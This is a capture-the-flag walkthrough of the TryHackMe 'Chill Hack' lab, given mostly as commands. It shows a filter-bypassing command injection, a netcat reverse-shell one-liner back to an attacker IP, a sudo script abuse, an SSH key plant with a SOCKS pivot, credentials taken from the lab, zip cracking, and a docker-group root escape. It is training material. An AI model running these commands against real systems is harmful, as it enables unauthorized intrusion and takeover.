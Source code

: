 # Chill Hack

**Room Link:** [https://tryhackme.com/room/chillhack](https://tryhackme.com/room/chillhack)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (16) (1) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (28) (4).png" alt=""><figcaption></figcaption></figure>



A lot of commands ran will result in this page.

<figure><img src="../../.gitbook/assets/image (45) (1).png" alt=""><figcaption></figcaption></figure>

### Command Injection

Used this to find a way to bypass the filter. by adding a \ in the middle of the first command, it treats the command as a new line so it allows us to run any command we want.

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)&#x20;



**Web**

```
r\m /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.172.186 1337 >/tmp/f
```

**Kali**

```
nc -lvnp 1337
```

**Victim**

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

<figure><img src="../../.gitbook/assets/image (20) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (37) (2).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo -u apaar /home/apaar/.helpline.sh
/bin/bash
/bin/bash
```

<figure><img src="../../.gitbook/assets/image (21) (4).png" alt=""><figcaption></figcaption></figure>

**Victim(apaar)**

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

**Victim(apaar)**

```
netstat -at
curl localhost:9001
```

<figure><img src="../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (18) (9) (1).png" alt=""><figcaption></figcaption></figure>

### Pivot

**Kali**

```
ssh-keygen -t rsa
cat /root/.ssh/id_rsa.pub
```

**Victim**

```
copy id_rsa.pub to /home/apaar/.ssh/authorized_keys
```

**Kali**

```
vi /etc/proxychains.conf
```

**proxychains.conf**

```
socks4 	127.0.0.1 9050
```

**Kali**

```
ssh -D 9050 apaar@VICTIM
```

<figure><img src="../../.gitbook/assets/image (42) (2).png" alt=""><figcaption></figcaption></figure>



I can now see the webpage from Kali but no login credentials to use.

<figure><img src="../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

Found credentials for mysql in one of the php files.

**Victim(apaar)**

```
cat /var/www/files/index.php
```

<figure><img src="../../.gitbook/assets/image (27) (6).png" alt=""><figcaption></figcaption></figure>

**Victim(apaar)**

```
mysql -u root -p webportal
Password: !@m+her00+@db
```

**Victim(mysql)**

```
SHOW DATABASES;
use webportal;
SHOW TABLES;
select * from users;
```

<figure><img src="../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (14) (11) (1).png" alt=""><figcaption></figcaption></figure>



Both set of credentials work on the login page, both bring up this page.

<figure><img src="../../.gitbook/assets/image (32) (1).png" alt=""><figcaption></figcaption></figure>

Used no password

**Kali**

```
steghide extract -sf hacker-with-laptop_23-2147985341.jpg
```

<figure><img src="../../.gitbook/assets/image (17) (6) (2).png" alt=""><figcaption></figcaption></figure>

### Cracking Password Protected Zip Files

**Kali**

```
zip2john backup.zip > secure_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt secure_john.txt 
```

<figure><img src="../../.gitbook/assets/image (43) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
unzip backup.zip
Password: pass1word
```

<figure><img src="../../.gitbook/assets/image (24) (7).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
cat source_code.php 
echo "IWQwbnRLbjB3bVlwQHNzdzByZA==" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (36) (2).png" alt=""><figcaption></figcaption></figure>

**Victim(apaar)**

<pre><code>su anurodh
<strong>Password: !d0ntKn0wmYp@ssw0rd
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

## **Privilege Escalation**

anurodh is apart of a docker group which the other user was not apart of, looking at gtfo bins theres a way to get a shell so I tried it and got root

**Link:** [https://gtfobins.github.io/gtfobins/docker/#shell](https://gtfobins.github.io/gtfobins/docker/#shell)

**Victim(anurodh)**

```
groups
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

<figure><img src="../../.gitbook/assets/image (34) (1).png" alt=""><figcaption></figcaption></figure>









